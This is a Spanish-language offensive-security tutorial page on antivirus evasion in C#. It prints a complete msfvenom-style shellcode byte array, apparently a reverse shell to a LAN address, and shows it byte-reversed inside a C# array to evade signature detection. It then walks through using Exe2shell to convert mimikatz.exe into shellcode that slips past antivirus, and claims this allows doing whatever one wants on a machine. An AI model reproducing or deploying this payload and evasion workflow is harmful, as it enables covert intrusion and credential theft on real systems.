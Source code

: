 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Otras técnicas de evasión con C

Lo que podemos hacer con el `payload` que nos proporciono `msfvenom` es darle la vuelta directamente para que asi tampoco nos lo detecte los antivirus con una pagina:

```
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
```

Lo ponemos todo en una `onle line` y se lo pasamos a la siguiente pagina:

URL = [Reverse Byte Array Payload](https://yupana-engineering.com/online-reverse-byte-array)

Nos quedaria algo tal que asi implementado con la variable para el codigo:

```cs
byte[] buf = new byte[354] {0xd5, 0xff, 0x53, 0x00, 0x6a, 0x56, 0xa2, 0xb5, 0xf0, 0xbb, 0xc3, 0xc1, 0x75, 0xc6, 0x29, 0xc3, 0x01, 0xff, 0xff, 0xff, 0x9b, 0xe9, 0xff, 0xff, 0xff, 0x70, 0x85, 0x0f, 0x24, 0x0c, 0xff, 0x5e, 0x5e, 0xd5, 0xff, 0x61, 0x4d, 0x6e, 0x75, 0x68, 0x57, 0xd5, 0xff, 0x30, 0x0f, 0x2f, 0x0b, 0x68, 0x50, 0x00, 0x6a, 0x00, 0x00, 0x40, 0x00, 0x68, 0x58, 0x28, 0x7d, 0x00, 0xf8, 0x83, 0xd5, 0xff, 0x5f, 0xc8, 0xd9, 0x02, 0x68, 0x57, 0x53, 0x56, 0x00, 0x6a, 0x53, 0x93, 0xd5, 0xff, 0xe5, 0x53, 0xa4, 0x58, 0x68, 0x00, 0x6a, 0x56, 0x00, 0x00, 0x10, 0x00, 0x68, 0x40, 0x6a, 0x36, 0x8b, 0x36, 0x7e, 0x00, 0xf8, 0x83, 0xd5, 0xff, 0x5f, 0xc8, 0xd9, 0x02, 0x68, 0x57, 0x56, 0x04, 0x6a, 0x00, 0x6a, 0x00, 0x00, 0x00, 0x67, 0xe8, 0xec, 0x75, 0x08, 0x4e, 0xff, 0x0a, 0x74, 0xc0, 0x85, 0xd5, 0xff, 0x61, 0x74, 0xa5, 0x99, 0x68, 0x57, 0x56, 0x10, 0x6a, 0x97, 0xd5, 0xff, 0xe0, 0xdf, 0x0f, 0xea, 0x68, 0x50, 0x40, 0x50, 0x40, 0x50, 0x50, 0x50, 0x50, 0xe6, 0x89, 0x61, 0x1e, 0x00, 0x02, 0x68, 0xcd, 0x05, 0xa8, 0xc0, 0x68, 0x0a, 0x6a, 0xd5, 0xff, 0x00, 0x6b, 0x80, 0x29, 0x68, 0x50, 0x54, 0xc4, 0x29, 0x00, 0x00, 0x01, 0x90, 0xb8, 0xd0, 0xff, 0xe8, 0x89, 0x07, 0x26, 0x77, 0x4c, 0x68, 0x54, 0x5f, 0x32, 0x73, 0x77, 0x68, 0x00, 0x00, 0x32, 0x33, 0x68, 0x5d, 0xff, 0xff, 0xff, 0x80, 0xe9, 0x12, 0x8b, 0x5a, 0x5f, 0x58, 0xe0, 0xff, 0x51, 0x5a, 0x59, 0x61, 0x5b, 0x5b, 0x24, 0x24, 0x44, 0x89, 0xd0, 0x01, 0x8b, 0x04, 0x8b, 0xd3, 0x01, 0x1c, 0x58, 0x8b, 0x4b, 0x0c, 0x8b, 0x66, 0xd3, 0x01, 0x24, 0x58, 0x8b, 0x58, 0xe0, 0x75, 0x24, 0x7d, 0x3b, 0xf8, 0x7d, 0x03, 0xf4, 0x75, 0xe0, 0x38, 0xc7, 0x01, 0x0d, 0xcf, 0xc1, 0xac, 0xc0, 0x31, 0xd6, 0x01, 0x8b, 0x34, 0x8b, 0xff, 0x31, 0x49, 0x3c, 0x74, 0xc9, 0x85, 0xd3, 0x01, 0x50, 0x20, 0x58, 0x8b, 0x18, 0x48, 0x8b, 0xd0, 0x01, 0x4c, 0x74, 0xc0, 0x85, 0x78, 0x40, 0x8b, 0xd0, 0x01, 0x3c, 0x42, 0x8b, 0x10, 0x52, 0x8b, 0x57, 0x52, 0xef, 0x75, 0x49, 0xc7, 0x01, 0x0d, 0xcf, 0xc1, 0x20, 0x2c, 0x02, 0x7c, 0x61, 0x3c, 0xac, 0xc0, 0x31, 0x28, 0x72, 0x8b, 0xff, 0x31, 0x26, 0x4a, 0xb7, 0x0f, 0x14, 0x52, 0x8b, 0x0c, 0x52, 0x8b, 0x30, 0x52, 0x8b, 0x64, 0xe5, 0x89, 0xd2, 0x31, 0x60, 0x00, 0x00, 0x00, 0x8f, 0xe8, 0xfc};
```

Tambien tenemos otra herramienta en la que podemos realizar una `shell` sin que el antivirus lo detecte en el siguiente repositorio:

URL = [Exe2shell GitHub](https://github.com/daVinci13/Exe2shell)

Nos tendremos que clonar el repositorio de `GitHub` de la siguiente forma:

```shell
git clone https://github.com/daVinci13/Exe2shell.git
cd Exe2shell/
```

Si yo por ejemplo quiero utilizar la misma tecnica de `C#` pero para evadir la deteccion de la herramienta `mimikatz` podremos realizar lo siguiente, donde este el ejecutable `mimikatz` copiaremos el `.py` de la siguiente forma:

```shell
cp exe2shell.py ../
```

Lo que hace ese `.py` es que me transforma en un `shellcode` el binario `mimikatz.exe` para que luego pueda insertarlo en mi binario que he creado y se pueda ejecutar el `mimikatz.exe` sin ningun problema `bypasseando` la firma del binario.

```shell
python3 exe2shell.py mimikatz.exe > shell.txt
```

Con esto nos generara todos los `bytes` del `mimikatz` para que pueda ser ejecutado, y ya con esto podriamos convertirlo a un `string` como hicimos anteriormente para que se pueda ejecutar sin ningun problema y realizar las modificaciones necesarias como hicimos anteriormente.

Hay una pagina muy buena que explica todo esto de evasion de antivirus de muchisimas formas diferentes que es la siguiente:

URL = [Bypassing avs by csharp Pagina](https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/index.htm?page=Chapter%2013.html)

En esta pagina como ya comente engloba todo lo que podemos realizar con este `C#` para `Bypassear` practicamente casi cualquier antivirus o herramientas de seguridad y hacer lo que queramos dentro de un equipo.
